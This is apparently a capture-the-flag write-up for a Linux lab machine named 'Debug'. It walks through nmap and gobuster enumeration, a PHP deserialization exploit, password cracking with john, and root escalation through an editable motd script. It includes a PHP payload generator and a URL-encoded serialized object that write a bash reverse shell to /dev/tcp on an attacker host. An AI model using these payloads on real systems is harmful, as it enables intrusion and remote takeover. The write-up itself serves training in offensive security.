 # Debug : 
##Linux Machine CTF! You'll learn about enumeration, finding hidden password files and how to exploit php deserialization!

```
Hey everybody!

Welcome to this Linux CTF Machine!

The main idea of this room is to make you learn more about php deserialization!

I hope you enjoy your journey :)
```

![04878cdb1624bcc08af74122f6b68a88](https://user-images.githubusercontent.com/58278761/113150929-439daf80-923d-11eb-8d82-ac5ae0fd1b35.jpeg)


As a hint from the Creator, we will be facing a PHP Deserialization.

## Enumeration
                              So Lets start with nmap
							
```bash
# Nmap 7.91 scan initiated Tue Mar 30 23:07:31 2021 as: nmap -sC -sV -vv -o Inital_nmap 10.10.234.104
Nmap scan report for 10.10.234.104
Host is up, received echo-reply ttl 63 (0.16s latency).
Scanned at 2021-03-30 23:07:32 EEST for 13s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 44:ee:1e:ba:07:2a:54:69:ff:11:e3:49:d7:db:a9:01 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDar9Wvsxi0NTtlrjfNnap7o6OD9e/Eug2nZF18xx17tNZC/iVn5eByde27ZzR4Gf10FwleJzW5B7ieEThO3Ry5/kMZYbobY2nI8F3s20R8+sb6IdWDL4NIkFPqsDudH3LORxECx0DtwNdqgMgqeh/fCys1BzU2v2MvP5alraQmX81h1AMDQPTo9nDHEJ6bc4Tt5NyoMZZSUXDfJRutsmt969AROoyDsoJOrkwdRUmYHrPqA5fvLtWsWXHYKGsWOPZSe0HIq4wUthMf65RQynFQRwErrJlQmOIKjMV9XkmWQ8c/DqA1h7xKtbfeUYa9nEfhO4HoSkwS0lCErj+l9p8h
|   256 8b:2a:8f:d8:40:95:33:d5:fa:7a:40:6a:7f:29:e4:03 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBA7IA5s8W9jhxGAF1s4Q4BNSu1A52E+rSyFGBYdecgcJJ/sNZ3uL6sjZEsAfJG83m22c0HgoePkuWrkdK2oRnbs=
|   256 65:59:e4:40:2a:c2:d7:05:77:b3:af:60:da:cd:fc:67 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGXyfw0mC4ho9k8bd+n0BpaYrda6qT2eI1pi8TBYXKMb
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar 30 23:07:45 2021 -- 1 IP address (1 host up) scanned in 14.22 seconds
```
 
 We Have 2 Open ports: 
 80 : http
 22 : ssh 
 
checking the http we get The Default Apache Page , and there is nothing usefull here; 
lets try to see if there any directories in the site ,



```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.234.104/
[+] Threads:        40
[+] Wordlist:       /usr/share/wordlists/SecLists-master/Discovery/Web-Content/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html
[+] Timeout:        10s
===============================================================
2021/03/30 23:11:06 Starting gobuster
===============================================================
/.htpasswd (Status: 403)
/.htpasswd.txt (Status: 403)
/.htpasswd.html (Status: 403)
/.htpasswd.php (Status: 403)
/.htaccess (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.txt (Status: 403)
/.htaccess.html (Status: 403)
/backup (Status: 301)
/grid (Status: 301)
/index.html (Status: 200)
/index.php (Status: 200)
/javascript (Status: 301)
/javascripts (Status: 301)
/message.txt (Status: 200)
/server-status (Status: 403)
```
 
 As we can see there is some intresting files here :
 index.php - backup - message.txt 
 
 first lets see what inside the backup ...
 
![Screenshot from 2021-03-31 03-13-38](https://user-images.githubusercontent.com/58278761/113151090-6c25a980-923d-11eb-8978-73f04f44db59.png)

 
 it seems that we have a source code for the index.php website,
 by checking the source code we can identify where is the vulnerable code ...
 
![Pasted image 20210331033918](https://user-images.githubusercontent.com/58278761/113151201-83fd2d80-923d-11eb-836d-e0199f1644d2.png)

 
 As we Can see here we have debug parameter that being unserialized ,
 and we have one of the magic method  is the "__destruct()"
 
A very good Resource for PHP Serialization : https://notsosecure.com/remote-code-execution-via-php-unserialize/
 
the destruct method is Taking $form_file as file name , and $message variable as its value 
and creating a file in the same directory
 
 so we can write a php code to generate a serialized object that will create a php reverse shell file as bellow :
 
 ```php
 <?php
class FormSubmit
{
	public $form_file = 'shell.php';
	public $message = '<?php exec("/bin/bash -c \'bash -i > /dev/tcp/ATTACKER-IP/1337 0>&1\'");';
}
print urlencode(serialize(new FormSubmit));

?>
```
payload:
```bash
O%3A10%3A%22FormSubmit%22%3A2%3A%7Bs%3A9%3A%22form_file%22%3Bs%3A10%3A%22shell2.php%22%3Bs%3A7%3A%22message%22%3Bs%3A70%3A%22%3C%3Fphp+exec%28%22%2Fbin%2Fbash+-c+%27bash+-i+%3E+%2Fdev%2Ftcp%2F10.8.94.192%2F1337+0%3E%261%27%22%29%3B%22%3B%7D
```

as we seen above the destruct method now will create a shell.php with the message as its contents, 

setup a listener and  pass the payload to "debug" parameter then navigate to /shell.php, you should catch a shell !



# User
Manually Checking the html directory we see that we got .htapasswd as the creator 
mentioned (hidden) passwords

![Pasted image 20210331040049](https://user-images.githubusercontent.com/58278761/113151253-924b4980-923d-11eb-924d-8913704b4ddd.png)


well the password is hashed, we can crack it with john using rockyou

![Pasted image 20210331040832](https://user-images.githubusercontent.com/58278761/113151284-9aa38480-923d-11eb-942b-0901d443f4f7.png)



# Root 

root left a message to james ,, 

![Pasted image 20210331041225](https://user-images.githubusercontent.com/58278761/113151344-a727dd00-923d-11eb-959c-b9342f64c135.png)


so James can modify the welcome message in ssh that located in ```/etc/update-motd.d/00-header```

Here you can see how you can exploit this by adding a reverseshell or by simply adding SUID to /bin/bash like this 

![Pasted image 20210331042420](https://user-images.githubusercontent.com/58278761/113151382-af801800-923d-11eb-83d1-517c83a8ad0c.png)



# voilà
![Pasted image 20210331042824](https://user-images.githubusercontent.com/58278761/113151405-b60e8f80-923d-11eb-973c-e286b516abf3.png)
